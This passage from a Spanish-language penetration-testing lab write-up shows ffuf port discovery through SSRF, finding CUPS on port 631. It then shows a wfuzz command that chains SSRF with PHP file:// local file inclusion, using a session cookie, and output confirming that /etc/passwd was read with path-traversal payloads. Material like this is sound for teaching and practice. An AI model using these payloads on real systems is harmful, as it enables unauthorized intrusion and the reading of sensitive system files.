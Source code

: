 ```bash
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: No se pudo acceder a la URL.
________________________________________________

80                      [Status: 200, Size: 8104, Words: 2664, Lines: 237, Duration: 5ms]
631                     [Status: 200, Size: 9121, Words: 2152, Lines: 215, Duration: 17ms]
:: Progress: [10000/10000] :: Job [1/1] :: 399 req/sec :: Duration: [0:00:22] :: Errors: 0 ::
```

| Parámetros | Descripción |
|--------------------------|
| *-w*       | Para indicar el diccionario a usar en el fuzzing. |
| *-u*       | Para indicar la URL a utilizar. |
| *-b*       | Para cargar una cookie al ataque. |
| *-fr*      | Para aplicar un filtro de expresiones regulares. |

<br>

Logramos identificar el puerto interno 631, que pertenece al **servicio CUPS**.

Continuemos.

<br>

<h2 id="SSRFyLFI">Aplicando Server-Side Request Forgery (SSRF) + Local File Inclusion (LFI)</h2>

Recordando que la página web está hecha con **PHP**, es posible que funcione un **PHP Wrapper**, lo que nos permitiría aplicar **Local File Inclusion (LFI)**.

Tomemos en cuenta algunas cosillas:
* La opción de **PHP Wrapper** a utilizar es `file://`, ya que este permite la inclusión de archivos locales.
* Necesitamos usar la cookie de nuestra sesión para que funcione el ataque, que la puedes obtener de la sección **Storage** del **Inspector** web.
* Usaremos la herramienta **wfuzz**, pues es la mejor opción (al menos a mi parecer) para esta clase de pruebas.
* Por último, usaremos el wordlist **LFI-Jhaddix.txt** de **SecLists**.

Probémoslo:
```bash
wfuzz -c --hc=404 -t 300 --hl=162,163 -b 'PHPSESSID=Tu_Cookie' -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt http://192.168.100.110/dashboard.php?url=file://FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.100.110/dashboard.php?url=file://FUZZ
Total requests: 929

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                      
=====================================================================

000000254:   200        200 L    519 W      7562 Ch     "/../../../../../../../../../../etc/passwd"                                                                                  
000000257:   200        200 L    519 W      7532 Ch     "/etc/passwd"                                                                                                                
000000253:   200        200 L    519 W      7554 Ch     "/./././././././././././etc/passwd"                                                                                          
```